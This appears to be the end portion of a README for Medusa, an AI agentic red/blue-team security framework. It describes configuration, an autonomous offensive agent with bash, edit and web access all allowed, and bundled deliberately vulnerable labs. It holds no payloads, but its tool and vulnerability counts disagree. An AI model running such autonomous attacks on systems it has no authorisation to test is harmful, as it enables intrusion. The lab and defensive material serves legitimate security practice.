| **Knowledge graph** | Persistent store of findings, flags, patches, attacker profiles, and notes shared by both teams. |
| **Tarpit** | A defensive countermeasure that slows an attacker with long response delays. |
| **Canary token** | A honeypot artifact that alerts when an attacker touches it. |
| **Response ladder** | The Blue Team escalation policy keyed by detector score. |
| **Supervisor** | The zero-cost pattern detector that watches the red team for misses and repeats. |
| **Module pack** | A self-contained tool bundle under `Modules/Tools` or `Modules/Mods` with a manifest. |
| **Lab** | The built-in deliberately vulnerable Flask application on port 5906. |
| **Engagement** | One red or blue operation, from start to report. |

---

<h2 align="center">Roadmap — v2.3 beta</h2>

| Area | Status | Notes |
|---|---|---|
| Classic Rich TUI | Stable | Recommended entry point. |
| Terminal shell | Beta | Sessioning, agents, MCP bridge, green theme. |
| 115-tool MCP bridge | Stable | Signature-derived schemas, per-tool command display. |
| `medusa-red` / `medusa-blue` agents | Beta | Default agent is `medusa-red`. |
| Dual-engine CI | Active | Python matrix + bun/tsgo tui job. |
| Known gaps | — | Zen provider still branded as the upstream service; the GitHub-agent feature needs a hosted backend. |

---

<h2 align="center">Configuration Reference</h2>

<p>
Two configuration surfaces exist: the backend (<code>medusa/config.json</code>)
and the shell (<code>medusa.json</code>, <code>~/.config/medusa/</code>,
<code>.medusa/</code>).
</p>

### Backend — `medusa/config.json`

| Key | Meaning | Example |
|---|---|---|
| `provider` | LLM provider id | `"deepseek"` |
| `model` | Model name | `"deepseek-v4-flash"` |
| `api_key` | Provider API key (kept out of git) | `"sk-..."` |
| `small_model` | Fast model for cheap tasks | `"deepseek-v4-flash"` |
| `blue_lab_port` | Lab listen port | `5906` |
| `proxy_port` | Blue Team interception proxy | `8080` |
| `metasploit_rpc_port` | msfrpcd port | `55553` |
| `max_rounds` | Supervisor round cap | `12` |
| `cost_cap` | Hard spend ceiling in dollars | `50` |

### Shell — `medusa.json`

| Key | Meaning |
|---|---|
| `default_agent` | Agent used for new sessions (`medusa-red`) |
| `permission` | Coarse tool permissions (`edit`, `bash`, `webfetch`) |
| `mcp.<name>` | Local or remote MCP server registration |
| `small_model` | Fast model for title/summary tasks |

### Agent anatomy

```markdown
---
description: Medusa Red Team — autonomous offensive security agent.
mode: primary
color: "#e06c75"
temperature: 0.4
permission:
  edit: allow
  bash: allow
  webfetch: allow
---
# AUTONOMOUS RED TEAM AGENT — FULL CAPABILITIES
... system prompt ...
```

- `mode: primary` — selectable as the session driver (`subagent` is spawnable
  only, `all` is both).
- `color` — chip color in the session UI.
- `permission` — per-agent allow/deny map.
- Files live in `.medusa/agents/` (project) or `~/.config/medusa/agent/` (global).

### Commands anatomy

```markdown
---
description: Start the vulnerable lab on port 5906
---
Start the lab with your bash tool, run it in the background, confirm :5906.
```

Files live in `.medusa/commands/` and appear as `/lab`, `/classic-tui`, etc.
in the shell's slash menu and command palette.

---

<h2 align="center">Built-In Labs — Guide</h2>

<p>
Two deliberately vulnerable Flask applications ship with the repo so you can
practice without touching anything you do not own.
</p>

<table>
<tr><th width="25%">Lab</th><th>Launch</th><th>Contains</th></tr>
<tr>
<td><b>CloudBoard Next</b></td>
<td><code>python3 medusa/lab/blue_target/vulnerable_app.py</code></td>
<td>15 vulnerabilities across 3 services (auth, admin, uploads): SQLi, XSS, SSRF, JWT confusion, .git exposure, IDOR, command injection.</td>
</tr>
<tr>
<td><b>DevOps Dashboard</b></td>
<td>same process, second service</td>
<td>RCE lab: unsafe input handling in pipeline config, OS command execution paths.</td>
</tr>
</table>

### Attacking the lab (red)

```bash
./medusa-tui.sh
# prompt: recon 127.0.0.1:5906, enumerate services, exploit the SQLi on /login
```

### Defending the lab (blue)

```bash
python3 medusa/main.py           # [2] Blue Team — starts and watches the lab
python3 medusa/lab/blue_target/attack_simulator.py   # simulated attacker
```

---

<h2 align="center">Testing &amp; Quality Gates</h2>

<table>
<tr><th width="30%">Gate</th><th>Command</th><th>What it proves</th></tr>
<tr><td>Backend tests</td><td><code>python3 -m pytest medusa/tests/ -q</code></td><td>360 tests: graph, oracle, supervisor, tools, MCP bridge, blue team, LLM paths.</td></tr>
<tr><td>Shell typecheck</td><td><code>cd tui && bun run typecheck</code></td><td>tsgo across 17 workspace packages.</td></tr>
<tr><td>Shell lint</td><td><code>cd tui && bun run lint</code></td><td>oxlint, exit 0 on the vendored tree.</td></tr>
<tr><td>CI</td><td><code>.github/workflows/ci.yml</code></td><td>Python 3.10-3.12 matrix plus the bun/tsgo tui job on every push and PR.</td></tr>
</table>

---

<h2 align="center">Maintainers</h2>

<table>
<tr>
<td align="center" valign="top" width="50%">
<p align="center"></p>
<b>William Jiang</b>: Creator & Lead Developer<br/><br/>
<small>William Jiang is the creator and lead developer of Medusa, an open-source AI agentic red-teaming framework. He built the LangGraph state machine that drives the red team pipeline, the subagent spawning system for parallel attack vectors, and the zero-LLM-cost supervisor pattern detector. He also developed the persistent knowledge graph, the Blue Team architecture with 18 attack pattern detectors and AI decision engine, the per-endpoint subagent system, and the deception arsenal including tarpits, honeypots, and network blocking. He created both deliberately vulnerable labs with 23 total vulnerabilities, wrote the 85-tool toolkit, the module system, and the dual-mode red/blue framework. He also wrote the documentation and built a functional autonomous security platform that delivers working attacks and defenses in real-world scenarios.</small><br/><br/>
<a href="https://github.com/williamjiang">GitHub</a>
</td>
<td align="center" valign="top" width="50%">
<p align="center"></p>
<b>Roland Poon</b>: Designer and Project Manager<br/><br/>
<small>Roland Poon served as designer and project manager on Medusa, helping architect the offensive framework and contributing to the design of the red team/blue team integration that drives the AI vulnerability discovery engine. The work drew inspiration from the Sakana Fugu system's approach to adversarial probing, combining reinforcement learning agents with fuzzing pipelines and purple-teaming feedback loops to enable automated attack chaining and exploit synthesis.</small><br/><br/>
<a href="https://github.com/rolandpoon2011-cloud">GitHub</a>
</td>
</tr>
</table>

---

<p align="center">
  <sub>Licensed under MIT - Inspired by <a href="https://github.com/samugit83/redamon">RedAmon</a> & <a href="https://github.com/sakana-ai/Fugu">Sakana Fugu</a></sub>
</p>
